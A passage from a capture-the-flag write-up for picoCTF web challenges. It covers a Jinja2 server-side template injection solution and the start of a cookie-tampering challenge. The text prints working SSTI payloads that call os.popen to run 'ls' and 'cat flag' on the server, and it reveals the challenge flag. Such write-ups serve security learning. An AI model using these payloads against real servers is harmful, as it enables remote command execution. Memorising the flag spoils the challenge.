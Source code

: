 ## SOLUTION
- after running start instance we are sent to this site
  
<img width="998" height="394" alt="image" src="https://github.com/user-attachments/assets/dff45785-4c39-4a7c-883b-9b206c9ea93f" />

- the given hint is Server Side Template Injection so after researching more about it we will come across various Common Vulnerable Frameworks so to check we can do trial and error
- when we input {{7*7}} we get 49 so it confirms we use Jinja2
- so when i typed in  {{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}  to list out the files on the server to find the name of the file with the flag
<img width="1911" height="843" alt="image" src="https://github.com/user-attachments/assets/49a20b5c-0754-4ace-b3ef-0f0c96c3a9ff" />
- so with all this info we can use {{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat flag')['read']()}} to obtain the flag
  
<img width="1472" height="286" alt="image" src="https://github.com/user-attachments/assets/b6f88665-3fe2-42c8-b34d-eeabc8263878" />

## FLAG
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_4675f3fa}

## CONCEPTS LEARNED 
- how Server-Side Template Injection (SSTI) is a critical vulnerability that can give attackers the ability to execute arbitrary code on the server. 
- how instead of creating a whole new page per person that accesses the site, it will simply render the remote address into the {{ip}} variable, while reusing the rest of the HTML for each person request the server receives to that endpoint.

## RESOURCES 
https://medium.com/@bootstrapsecurity/server-side-template-injection-ssti-advanced-exploitation-techniques-2d8ccdf6270f
https://onsecurity.io/article/server-side-template-injection-with-jinja2/

# 3.COOKIES
Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:21485/

## SOLUTION
- on opening the link we see a page asking us to type in cookie names
<img width="1904" height="929" alt="Screenshot 2025-10-29 061454" src="https://github.com/user-attachments/assets/204629fb-91af-4a8a-9774-b6b5dc374b03" />
- starting with snickerdoodle, we observe cookie which had the value of -1 becomes 0.
- so i searched up cookie names https://www.allrecipes.com/gallery/most-popular-types-of-cookies/
- so next when tried with chocolate chip the value became 1
<img width="1911" height="958" alt="Screenshot 2025-10-23 192712" src="https://github.com/user-attachments/assets/b4d5b990-1b59-4bf2-942d-452cda58f495" />
- when i type in oreo the value becomes -1 again so instead of typing in names we can just change the values
  <img width="1913" height="963" alt="Screenshot 2025-10-23 192824" src="https://github.com/user-attachments/assets/e9c661a5-b76e-4455-90b4-5ccf5bafb85f" />
